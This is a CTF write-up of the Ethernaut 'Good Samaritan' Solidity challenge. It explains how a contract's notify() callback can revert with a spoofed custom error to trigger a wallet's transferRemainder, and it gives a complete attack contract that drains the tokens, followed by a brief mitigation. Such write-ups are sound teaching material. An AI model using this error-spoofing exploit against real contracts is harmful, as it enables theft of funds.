 ```yaml
---
title: How Not To Use Custom Errors
date:  2022-11-06 12:30:06
author: Vishvesh
author_url: https://twitter.com/The_Str1d3r
mathjax: true
categories:
  - Blockchain
  - CTF-Writeups
tags:
  - "Ethereum"
  - "Solidity"

url : https://hackmd.io/Cyo2eYrKQPSvN3Zp8pga9g?view
mermaid: true
---
```

<html>
  <head>
    <script type="text/javascript" async
  src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.7/MathJax.js?config=TeX-MML-AM_CHTML">
    </script>


<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.1/MathJax.js?config=TeX-AMS_HTML">
  MathJax.Hub.Config({
    "HTML-CSS": {
      availableFonts: ["TeX"],
    },
    tex2jax: {
      inlineMath: [['$','$'],["\\(","\\)"]]},
      displayMath: [ ['$$','$$'], ['\[','\]'] ],
    TeX: {
      extensions: ["AMSmath.js", "AMSsymbols.js", "color.js"],
      equationNumbers: {
        autoNumber: "AMS"
      }
    },
    showProcessingMessages: false,
    messageStyle: "none",
    imageFont: null,
    "AssistiveMML": { disabled: true }
  });
</script>
</head>
</html>

------
# Good Samaritan

## Overview

This challenge focuses on a relatively new feature introduced recently in solidity known as custom errors used for better error handling. The challenge is comprised of 3 smart contracts 
- GoodSamaritan
- Coin
- Wallet

GoodSamaritian is the main contract we ned to exploit. It holds a million token intially and gives out 10 tokens to anyone who requests it, our goal is to drain the contract of all of its token.

---
Lets have a look at the this contract...

### GoodSamaritian

```solidity
contract GoodSamaritan {
    
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}
```

The constructor sets the wallet and coin contract deposits the tokens into the wallet.

The `requestDonation()` function calls a function in the wallet contract which transfers the requester 10 tokens but we see that if the error regarding balances is encounterd the wallet transfers all of its funds present in it. This is what we ned to execute to drain the walet of al tokens.

Lets have look at coin and then wallet contracts...

### Coin

```solidity
contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}
```

The constructor intializes the wallet with 1 million coins and we can see that the contract defines a custom error called `InsufficientBalance()`.

The transfer function is intresting, allthough it performs the standard addition and subtraction classic of any normal transfer function the next part is whats out of ordinary as it sends out a notification to the contract that `amount` money has been transferred.

This opens an attack vector for us as if we request via a contract it will pass `dest_.isContract()` check if we define a `notify()` function in our contract that will be called inside which we can take over control flow.

Now looking at wallet contract...

### Wallet

```solidity
contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}
```

This contract defines the donate10() function which checks if the wallet has enough balance else it reverts with the error NotEnoughBalance() this is the erro we need to execute to trigger the trasferRemainder() function declared in this contract which trnasfers all remaing wallet fund to the ***_dest*** address.

Also note both `donate10()` and `transferRemainder()` fucntions are guarded by the `onlyOwner()` modifer hence only the contract owner in this case the `GoodSamaritian` can call them.

## Constructing the exploit

Ok now all the contracts have been analyzed this gives us an idea on how to proceed further...

- First we need to request the `GoodSamaritian` contract, this will execute the `requestDonation()` function.
- This in turn calls the `donate10()` fucntion which checks for balance and as at this time the wallet will have enough balance it will pass the check.
- Next the `transfer()` fucntion will be called in `Coin` contract, this will transfer 10 coins to our contracts address but then the `notify()` fucntion will be called on our contract.
- We should have the `notify()` function defined in our contract and inside this we will exceute the revert with the error `NotEnoughBalance()`.
- This revert will then trigger the catch expression in `requestDonation()` with the error message as `NotEnoughBalance()`.
- This will pass the check for the custom error and finally the `transferRemainder()` function wil be called and all wallet funds will be transferred to our contract.

## Exploit

This will be the final exploit...

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{

    error NotEnoughBalance();

    GoodSamaritan goodsamaritan  = GoodSamaritan(_GoodSamaritianAddress); //ethernaut instance address
    
    function exploitGoodSamaritian() external {
        goodsamaritan.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```

This contract is the attack contract.

- First we will call the `exploitGoodSamaritian()` function which will call the `requestDoantion(`) function and as this is the first time all checks pass and 10 coins will be trnasferrred and the `notif()` function will be called.
- Insdie notify we have declared the revert statement with desired error which will trigger the `tranferRemnainder()` function to be called.
- But one catch is while transferring the entire wallet funds again the same process happens and again `notify()` will be called this willl result in our transfer being repeatedly reverted.
- To counter that the check is put: `amount <= 10`, so that when the entire amount is transferred the revert statement is not executed.


## Mitigation

In order to avoid this instead of notifying in that manner maybe events can be used, the essential thing is not to give away control flow to an external party and then deciding critical (or for that manner any) contract functionality based upon any parameter that the external party could potentially tamper with.
